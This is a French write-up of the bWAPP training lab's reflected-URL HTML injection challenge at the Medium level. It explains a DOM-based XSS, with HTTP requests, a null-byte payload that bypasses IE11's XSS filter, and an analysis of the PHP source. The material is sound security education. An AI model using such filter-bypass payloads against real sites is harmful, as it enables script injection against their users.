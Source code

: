 # Niveau "Medium"

## Exploitation

L'URL est ici réfléchie au sein de la page en utilisant la méthode HTTP `GET` :&#x20;

```http
GET /bWAPP/htmli_current_url.php?parametre=valeur HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: security_level=1; PHPSESSID=2f4611482fb97564af7dbe4243dca828
Connection: close
```

![](<../../../../../.gitbook/assets/image (23) (1) (1) (1).png>)

La récupération de l'URL s'effectue non plus en PHP mais grâce à du Javascript et la méthode `document.write()` de la variable `document.URI` :&#x20;

```html
<i>
  <script>document.write(document.URL)</script>
  "http://192.168.56.116/bWAPP/htmli_current_url.php?parametre=valeur"
</i>
```

Il est donc ici possible d'afficher les paramètres de type ancre :&#x20;

![](<../../../../../.gitbook/assets/image (22).png>)

Les navigateurs récents encodent l'URL, cela a pour conséquence qu'il est pas possible d'exploiter directement la vulnérabilité. Internet Explorer 11 n'effectue pas cet encodage sur les nom et valeur des paramètres d'URL, par contre il possède un filtre anti-XSS pouvant empêcher l'exécution de script malicieux :&#x20;

![](<../../../../../.gitbook/assets/image (8).png>)

Il existe un contournement fonctionnel sur IE permettant tout de même d'exécuter le code :&#x20;

```http
GET /bWAPP/htmli_current_url.php?parametre=<script/%00%00v%00%00>alert('XSS')</script> HTTP/1.1
Accept: text/html, application/xhtml+xml, image/jxr, */*
Host: 192.168.56.116
Cookie: PHPSESSID=5259cd672a0fb988f6f618b8527b1a8c; security_level=0
Connection: close
```

![](<../../../../../.gitbook/assets/image (10) (1).png>)

Il est également possible d'exécuter du code HTML/Javascript sans utiliser de contournement spécifique à IE11 mais en utilisant les ancres :&#x20;

```http
GET /bWAPP/htmli_current_url.php HTTP/1.1
Accept: text/html, application/xhtml+xml, image/jxr, */*
Host: 192.168.56.116
Cookie: PHPSESSID=5259cd672a0fb988f6f618b8527b1a8c; security_level=1
Connection: close
```

![](<../../../../../.gitbook/assets/image (10).png>)

Etant donné que la valeur de l'URL est récupérée au niveau du client (par du code Javascript, c'est donc une vulnérabilité Dom-based) l'interception et la modification de l'URL ne fonctionnera pas.

A noter qu'il est possible d'injecter le champ également le champ Host mais sans succès après quelques tests (excepté via interception avec un proxy) :&#x20;

![](<../../../../../.gitbook/assets/image (23) (1) (1).png>)

## Analyse du code source

L'application affiche le contenu de la variable `$url` au d'une balise `<i></i>` :

{% code title="htmli_current_url.php" %}
```php
<div id="man">
  <h1>HTML Injection - Reflected (URL)</h1>
  <?php echo "<p align=\"left\">Your current URL: <i>" . $url . "</i></p>";?>
</div>
```
{% endcode %}

La variable `$url` est construite de la manière suivante :&#x20;

{% code title="htmli_current_url.php" %}
```php
$url= "";

switch($_COOKIE["security_level"]) {
  case "0" :
    // $url = "http://" . $_SERVER["HTTP_HOST"] . urldecode($_SERVER["REQUEST_URI"]);
    $url = "http://" . $_SERVER["HTTP_HOST"] . $_SERVER["REQUEST_URI"];
    break;
  case "1" :
    $url = "<script>document.write(document.URL)</script>";
    break;
  case "2" :
    $url = "http://" . $_SERVER["HTTP_HOST"] . xss_check_3($_SERVER["REQUEST_URI"]);
    break;
  default :
    // $url = "http://" . $_SERVER["HTTP_HOST"] . urldecode($_SERVER["REQUEST_URI"]);
    $url = "http://" . $_SERVER["HTTP_HOST"] . $_SERVER["REQUEST_URI"];
    break;
}
```
{% endcode %}

Le level "Medium" correspond à la valeur 1, c'est à dire qu'ici, la variable `$url` est construite de la façon suivante :

```php
$url = "<script>document.write(document.URL)</script>";
```

Il s'agit donc d'une injection XSS basée sur le Dom (également nommée Type-0) car l'information est récupérée directement depuis l'URL affichée dans le navigateur de l'utilisateur (et non celle envoyée au serveur).
